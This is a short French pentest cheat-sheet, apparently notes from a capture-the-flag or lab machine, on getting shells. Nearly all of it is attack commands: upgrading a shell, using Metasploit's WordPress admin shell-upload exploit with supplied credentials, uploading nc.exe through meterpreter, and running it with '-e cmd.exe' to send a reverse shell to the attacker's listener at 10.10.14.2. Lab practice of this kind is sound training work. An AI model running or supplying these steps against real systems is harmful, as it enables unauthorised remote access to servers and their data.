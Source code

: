 # Shell et reverse shell

**Passer à un shell bash si shell pourri**
```
SHELL=/bin/bash script -q /dev/null
```

**Reverse-shell Wordpress**  

En cas d'accès à un wp-admin, possibilité de faire un reverse shell avec Metasploit :
```
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

Puis avoir un shell propre :
```
meterpreter> lcd /home/username/Downloads
meterpreter> cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload /usr/share/windows-binaries/nc.exe
```

En même temps, ouvrir un listener netcat dans un autre terminal : ```nc -lnvp 1234```.
```
meterpreter> execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
```

Un shell est accessible depuis le listener Netcat.